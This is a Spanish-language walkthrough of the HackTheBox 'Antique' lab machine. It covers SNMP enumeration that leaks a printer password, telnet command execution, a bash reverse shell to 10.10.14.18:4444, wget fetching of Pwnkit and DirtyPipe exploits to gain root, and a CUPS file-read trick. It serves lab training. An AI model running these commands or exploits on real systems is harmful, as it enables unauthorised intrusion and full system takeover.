 ```yaml
---
title: HackTheBox - Antique
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'SNMP Enumeration', 'Pwnkit (CVE-2021-4034)', 'DirtyPipe (CVE-2022-0847)', 'RCE (CVE:2015-1158)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Antique/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Antique Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **Linux, SNMP Enumeration, Pwnkit (CVE-2021-4034), DirtyPipe (CVE-2022-0847), Cups (CVE-2012-5519)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos tanto **TCP** como **UDP**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Antique/01-ports.png)


* **`nmap -sU --top-ports 1000 -Pn -n <IP> -oG puertos_udp`**

    ![](/assets/images/HTB/Easy/Antique/01-ports-udp.png)


b. Al conectarnos con telnet al puerto 23 nos pedirá una contraseña para continuar, pero, al no tenerla inspeccionamos el servicio **`SNMP`**

> **Protocolo Simple de Gestión de Red** (SNMP), fue creado para monitorear dispositivos en red. Se usa para manejar la configuración de tareas y cambiar configuraciones remotamente. Algunos dispositivos son compatibles como routers, switches, servidores o dispositivos IoT.
{: .prompt-info }

c. Al configurar dispositivos puede que exista información sobre los procesos y en ciertos casos credenciales. Así que, enumeraremos el servicio **`SNMP`** para tratar de conseguir información disponible, para esto debemos poseer una **`community string`**, algo así como una contraseña.

```bash
nmap -sU -p 161 --script 'snmp-*' <IP Antique>

PORT    STATE SERVICE
161/udp open  snmp
| snmp-brute:
|   <empty> - Valid credentials
|   cascade - Valid credentials
|   secret - Valid credentials
|   rmonmgmtuicommunity - Valid credentials
|   ANYCOM - Valid credentials
|   volition - Valid credentials
|   ILMI - Valid credentials
|   TENmanUFactOryPOWER - Valid credentials
|   MiniAP - Valid credentials
|   PRIVATE - Valid credentials
|   admin - Valid credentials
|   private - Valid credentials
|   public - Valid credentials
|   PUBLIC - Valid credentials
|   snmpd - Valid credentials
|   cisco - Valid credentials
|   mngt - Valid credentials
|_  snmp-Trap - Valid credentials

snmpwalk -v2c -c secret 10.10.11.107
SNMPv2-SMI::mib-2 = STRING: "HTB Printer"
```

Al buscar por cualquiera de las **`community strings`** siempre obtendremos el mismo resultado, por lo que indagamos más sobre este servicio [SNMP - Basics](https://www.manageengine.com/latam/network-monitoring/tutorial-fundamentos-protocolo-snmp.html)

d. Nos mencionan que sigue una estructura de árbol, y **`snmpwalk`** no enumera desde la raíz, así que le indicamos que queremos obtener toda la información posible desde la raíz

```bash
snmpwalk -v2c -c secret 10.10.11.107 1

SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
> Obtenemos la información en formato **hexadecimal**, para verla en texto claro usamos **`xxd -r -p`**
{: .prompt-tip }

e. Una vez con la contraseña en texto claro nos autenticamos en el servicio **telnet**

```bash
telnet <IP Antique>
HP JetDirect

Password: P@ssw0rd@123!!123
Please type "?" for HELP
> ?
<SNIP>
exec: execute system commands (exec id)
```

Podemos ejecutar comandos, por lo que nos entablaremos una reverse shell

```bash
> exec bash -c "bash -i >& /dev/tcp/10.10.14.18/4444 0>&1"
-----------------------------------------------------------
nc -lvnp 4444
lp@antique:~$
```

### Escalada de Privilegios 💹

Para escalar privilegios existen múltiples formas, primero usaremos [**Pwnkit**](https://github.com/berdav/CVE-2021-4034)

a. Primero, movemos los ficheros necesarios a la **Máquina Antique**

```bash
python -m http.server 80
--------------------------------------
lp@antique:/home/lp$ wget http://<tun0 IP>/cve-2021-4034.c -o-
lp@antique:/home/lp$ wget http://<tun0 IP>/Makefile -o-
lp@antique:/home/lp$ wget http://<tun0 IP>/pwnkit.c -o-
lp@antique:/home/lp$ make
lp@antique:/home/lp/backup$ chmod +x cve-2021-4034
lp@antique:/home/lp/backup$ ./cve-2021-4034
# whoami
root
```

b. La segunda forma se consigue al usar [**DirtyPipe**](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits), usaremos el **exploit-1.c**

```bash
lp@antique:~$ wget http://10.10.14.18/poc.c -o-
lp@antique:~$ gcc poc.c -o exploit
lp@antique:~$ chmod +x exploit
lp@antique:~$ ./exploit
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)
whoami
root
```

c. Veremos los puertos abiertos en la máquina y buscaremos algún exploit para [**CUPS**](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read)

```bash
lp@antique:~$ netstat -nat
<SNIP>
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN

lp@antique:~$ curl http://127.0.0.1:631
<SNIP>
<P><A HREF="help/whatsnew.html">What's New in CUPS 1.6</A></P>
```

```bash
lp@antique:~$ cupsctl ErrorLog=/root/root.txt
lp@antique:~$ curl -s 127.0.0.1:631/admin/log/error_log?

b901e1e1f279e8d3160bebd097f37ddd
```